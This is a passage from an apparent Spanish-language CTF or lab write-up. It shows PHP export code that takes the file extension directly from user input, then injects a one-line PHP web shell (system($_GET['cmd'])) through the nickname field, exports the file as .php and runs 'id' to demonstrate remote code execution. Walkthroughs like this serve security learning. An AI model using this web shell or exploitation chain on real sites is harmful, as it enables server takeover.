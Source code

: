 ```php
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>'; 
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

Podemos ver que toma el parámetro 'nickname' al ejecutar el código. Intentemos insertar este snippet de php para obtener RCE en el parámetro nickname.

```php
<?php system($_GET['cmd']);?>
```

![image](18.png)

Ahora lo exportamos como php. Al acceder a la exportación con el parámetro cmd=id, podemos ver que el comando se ha ejecutado correctamente.

![image](21.png)
